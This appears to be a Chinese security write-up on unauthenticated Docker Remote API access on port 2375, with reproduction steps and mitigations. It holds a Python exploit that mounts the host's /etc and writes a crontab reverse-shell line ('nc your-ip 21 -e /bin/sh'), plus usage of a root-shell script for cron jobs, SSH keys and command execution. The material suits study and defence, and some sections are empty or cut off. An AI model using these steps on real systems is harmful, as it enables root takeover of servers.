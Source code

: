 Docker 未授权访问
=================

一、漏洞简介
------------

#### 1. 基础介绍

http://www.loner.fm/drops/\#\#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

docker swarm 是一个将docker集群变成单一虚拟的docker
host工具，使用标准的Docker
API，能够方便docker集群的管理和扩展，由docker官方提供，具体的大家可以看官网介绍。

漏洞发现的起因是，有一位同学在使用docker swarm的时候，发现了管理的docker
节点上会开放一个TCP端口2375，绑定在0.0.0.0上，http访问会返回 404 page
not found ，然后他研究了下，发现这是 Docker Remote
API，可以执行docker命令，比如访问 http://host:2375/containers/json
会返回服务器当前运行的 container列表，和在docker CLI上执行 docker ps
的效果一样，其他操作比如创建/删除container，拉取image等操作也都可以通过API调用完成，然后他就开始吐槽了，这尼玛太不安全了。

然后我想了想
swarm是用来管理docker集群的，应该放在内网才对。问了之后发现，他是在公网上的几台机器上安装swarm的，并且2375端口的访问策略是开放的，所以可以直接访问。

#### 2. 测试环境配置

先关闭docker，然后开启：

    sudo service docker stop
    # 绑定Docker Remote Api在指定端口（这里是2375），可以自行测试。
    sudo docker daemon  -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock

参考API规范进行渗透：https://docs.docker.com/engine/reference/api/docker-remote-api-v1.23/

操作Docker API可以使用python dockert api 完成。

pip install docker-py

API使用参考：https://docker-py.readthedocs.io/en/stable/api/\#\#client-api

二、影响范围
------------

三、复现过程
------------

利用方法是，我们随意启动一个容器，并将宿主机的/etc目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

    import docker

    client = docker.DockerClient(base_url='http://your-ip:2375/')
    data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})

写入crontab文件，成功反弹shell：![](resource/Docker未授权访问/media/rId26.png)

#### python脚本

https://github.com/ianxtianxt/docker\_api\_vul

-   安装类库    `pip install -r requirements.txt`

-   查看运行的容器    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375`

-   查看所有的容器    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -a`

-   查看所有镜像    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -l`

-   查看端口映射    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -L`

-   写计划任务（centos,redhat等,加-u参数用于ubuntu等）    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口`    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -u -i 镜像名 -H 反弹ip -P 反弹端口`

-   写sshkey(自行修改脚本的中公钥)    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -k`

-   在容器中执行命令    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -e  "id" -I 容器id`

-   删除容器    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -c -I 容器id`

-   修改client api版本    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -v 1.22`

-   查看服务端api版本    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -V`

#### 3.3 其他的一些exp

https://github.com/netxfly/docker-remote-api-exphttps://github.com/zer0yu/SomePoC/blob/master/Docker/Docker\_Remote\_API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E.pyhttps://github.com/JnuSimba/MiscSecNotes/tree/master/Docker%E5%AE%89%E5%85%A8

#### 4. 防护策略

-   1.修改 Docker Remote API 服务默认参数。注意：该操作需要重启 Docker
    服务才能生效。

-   2.修改 Docker 的启动参数：    定位到 DOCKER\_OPTS 中的
    tcp://0.0.0.0:2375，将0.0.0.0修改为127.0.0.1    或将默认端口 2375 改为自定义端口    为 Remote API 设置认证措施。参照 官方文档 配置 Rem

-   3.注意：该操作需要重启 Docker 服务才能生效。    修改 Docker 服务运行账号。请以较低权限账号运行 Docker
    服务；另外，可以限制攻击者执行高危命令。

-   4.注意：该操作需要重启 Docker 服务才能生效。    设置防火墙策略。如果正常业务中 API
    服务需要被其他服务器来访问，可以配置安全组策略或 iptables
    策略，仅允许指定的 IP 来访问 Docker 接口。
